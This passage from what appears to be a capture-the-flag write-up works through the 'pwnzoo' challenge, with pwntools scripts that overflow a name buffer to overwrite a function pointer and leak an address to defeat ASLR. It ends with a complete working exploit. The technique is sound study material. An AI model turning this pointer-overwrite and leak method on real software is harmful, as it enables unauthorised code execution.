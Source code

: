```python
io.sendline(b'c')
io.recvuntil(b'New name: ')
io.sendline(cyclic(36))
io.recvuntil(b'Exit\n')
io.sendline(b'2')
io.sendline(cyclic(36) + "\x41\x41\x41\x41\x41\x41\x41\x41")
io.recvuntil(b'Exit\n')
io.sendline(b'1')
io.interactive()
```

We still have to deal with ASLR: The address of the print_flag function gets randomized on every start, therefore we can't just overwrite the pointer with a fixed value. At first I thought it is sufficient to overwrite just one byte of the pointer, but that did not work, due to the added "\x00" bytes. 

So wee need to modify the exploit workflow a bit:

1. On initializatzion, provide a 36 character long name, which will overwrite the "\x00" byte from animal_construct
2. Invoke the speak function form the menu. This will leak the current pointer value within the returned name
3. Use the leaked pointer value to calculate the print_flag address
4. Change the name of the animal, providing a 44 character long name (36 random characters + 8 bytes from the calulcated pointer)
5. Invoke the speak function from the menu to call the overwritten pointer.

Here is the final exploit

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pwnzoo')
context.terminal = ['tmux', 'splitw', '-h']


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = '''
tbreak main
tbreak construct_animal
continue
'''.format(**locals())

#io = remote('pwnzoo-7fb58ad8.challenges.bsidessf.net', 1234)
io = start()
io.recvuntil(b'dog?')
io.sendline(b'c')
io.recvuntil(b'New name: ')
io.sendline(cyclic(36))
io.recvuntil(b'Exit\n')
io.sendline(b'1')
leak = (int.from_bytes(io.recv().split()[4][36:-1], byteorder='little') & ~0xff)
log.info('Leaked address is' + str((hex(leak))))
io.sendline(b'2')
io.sendline(cyclic(36)+ p64(leak+0x3b))
io.recvuntil(b'Exit\n')
io.sendline(b'1')
```